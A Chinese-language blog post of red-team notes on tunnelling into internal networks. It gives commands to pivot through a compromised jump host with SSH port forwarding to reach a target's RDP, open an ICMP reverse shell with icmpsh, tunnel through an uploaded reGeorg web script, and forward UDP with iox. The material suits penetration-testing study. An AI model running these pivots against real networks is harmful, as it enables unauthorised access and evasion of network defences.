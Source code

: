 ```yaml
---
title: 内网穿透-隧道搭建-001
layout: post
post-image: /assets/images/bg.jpg
description: 记录一些内网穿透工具和方法
tags:
- 内网穿透
- 隧道搭建
---
```


# 内网穿透-隧道搭建-001   
--法外狂徒张三      


## SSH通道
<center>
将目标机器上的3389端口映射到vps上

**1.本地转发**

在vps上执行：

`ssh -CfNg -L 1153（VPS端口）:1.1.1.10:3389(目标机器及端口) root@192.168.1.11(被控跳板机)`

查看连接情况：

`Netstat -tulnp | grep "1153"`

连接目标机器3389

`rdesktop 127.0.0.1:1153(vps)`

**2.远程转发**

vps执行：

`ssh -CfNg -R 3307（VPS端口）:1.1.1.10:3389(目标机器及端口) root@192.168.1.11(被控跳板机)`

连接目标机器3389

`rdesktop 127.0.0.1:3307(vps)`

注：本地转发是将远程主机（服务器）某个端口的数据转发到本地机器的指定端口。远程端口转发则是在远程主机上监听一个端口，所有访问远程服务器指定端口的数据都会通过SSH隧道传输到本地的对应端口

**3.动态转发**

`ssh -CfNg -D 7000（监听端口） root@192.168.1.11(被控机器)`

SSH隧道常用参数

-C： 压缩传输，提高传输速度

-f：将SSH传输转入后台执行，不占用当前的shell

-N：建立静默连接（建立了连接，但是看不到具体会话）

-g：允许远程主机连接本地用于转发的端口

-L：本地端口转发

-R：远程端口转发

-D：动态转发（socks代理）

-P：指定SSH端口

## ICMP协议

使用工具icmpsh

关闭ping命令

`Sysctl -w net.ipv4.icmp_echo_ignore_all=1`

`Icmpsh.exe -t 192.168.1.7 -d 500 -b 30 -s 128`

## HTTP协议

工具：reGeorg

上传reg脚本后，当页面“Georg says, 'All seems fine'”，表示脚本运行正常

本地机器执行：

`python2 reGeorgSocksProxy.py -p 9999 -u http://ip:8080/tunnel/tunnel.jsp`

注：流量为明文，需要隐藏时可下载neo-reGeorg



## UDP

工具：IOX

```
./iox fwd -l 53 -r *127.0.0.1:8888 -k 000102 -u
./iox fwd -l *8888 -l *9999 -k 000102 -u
./iox fwd -r *127.0.0.1:9999 -r 8.8.8.8:53 -k 000102 -u
```

更多见官方介绍 ，[iox](https://github.com/EddieIvan01/iox)



---


</center>
